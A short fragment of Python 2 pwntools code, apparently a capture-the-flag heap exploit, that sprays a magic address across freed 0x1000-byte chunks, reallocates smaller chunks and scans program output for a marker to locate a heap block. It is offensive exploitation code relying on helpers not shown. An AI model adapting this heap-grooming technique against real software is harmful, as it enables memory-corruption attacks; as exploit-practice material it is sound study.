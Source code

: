 ```py

    magic_addr = 0x58585858

    #0x100-0x110 free

    delete()

    count = 1

    p_index = 0



    while 1:

        log.info("start find prev block count = %d" % count)

        data = []

        for i in range(0x10):

            data.append([p32(magic_addr - 0x20008 * count) * (0x1000 / 4 - 1),

    1])

        malloc(0x1000, data)

        delete()



        data = []

        for i in range(0x10):

            data.append(['X' * (0xa0 - 1), 0])

        malloc(0xa0, data)

        log.info("start call fuc count = %d" % count)


        callfuc(0x100)

        show(block_start - 0x10, index + 1)

        p_index = 0

        out = ''

        for i in range(index + 1 - block_start + 0x10):

            out = p.recvline()

            if 'W' in out:

                out = out[12 : ]

                print "find again! " + str(out.index('W'))

                p_index = i + block_start - 0x10

                break
```